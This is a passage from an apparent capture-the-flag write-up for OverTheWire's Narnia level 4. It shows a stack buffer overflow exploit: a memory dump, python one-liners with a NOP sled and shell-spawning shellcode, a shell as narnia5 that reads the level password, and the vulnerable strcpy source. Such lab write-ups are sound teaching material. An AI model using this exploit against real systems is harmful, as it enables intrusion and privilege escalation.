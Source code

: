 0xffffd3f8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd408:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd418:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd428:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd438:     0x41414141      0x42424242      0x90909090      0x90909090  
0xffffd448:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd458:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd468:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd478:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd488:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd498:     0x90909090      0x90909090      0x90909090      0x99580b6a  
0xffffd4a8:     0x2d686652      0x52e18970      0x2f68686a      0x68736162  
0xffffd4b8:     0x6e69622f      0x5152e389      0xcde18953      0xf7fe0080  
0xffffd4c8:     0xffffd4cc      0xf7ffd920      0x00000002      0xffffd626
{% endhighlight %}

Seeing as the NOP sled begins at 0xffffd440, and the shellcode begins at 0xffffd4a4, any address within the bounds of these two addresses will result in the execution of the shellcode. Using the same payload as the one on the attack box with the modification of the address surprisingly results in a “Segmentation fault”.

narnia4@narnia:/narnia$ ./narnia4 $(python -c "print 'A'*264+'x58xd4xffxff'*4+'x9  
0'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x  
68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80'")  
Segmentation fault

This was the same problem that occurred in Narnia 2. Just as we did in Narnia 2, tweaking the return address by slightly incrementing it results in the successful execution of the shellcode:

{% highlight bash %}
narnia4@narnia:/narnia$ ./narnia4 $(python -c "print 'A'*264  +'x90xd4xffxff'*4+'x90'*100+'x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73  
x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80'")  
bash-4.4$ whoami  
narnia5  
bash-4.4$ cat /etc/narnia_pass/narnia5  
faimahchiy
{% endhighlight %}

### Source Code

{% highlight c %}
#include <string.h>  
#include <stdlib.h>  
#include <stdio.h>  
#include <ctype.h>  
  
extern char **environ;int main(int argc,char **argv){   int i;   char buffer[256];   for(i = 0; environ[i] != NULL; i++)       memset(environ[i], '0', strlen(environ[i]));   if(argc>1)       strcpy(buffer,argv[1]);   return 0;  
}
{% endhighlight %}

The source code does not agree with what we saw in Ghidra. This is because Ghidra is converting the assembly instructions into c code, and for loops look similar to while loops. We can see from the source code that the program is setting 256 bytes to a buffer, and it is not performing any sort of boundary checks[[10]](#ftnt10) (a detection of the size of the input before it is used).
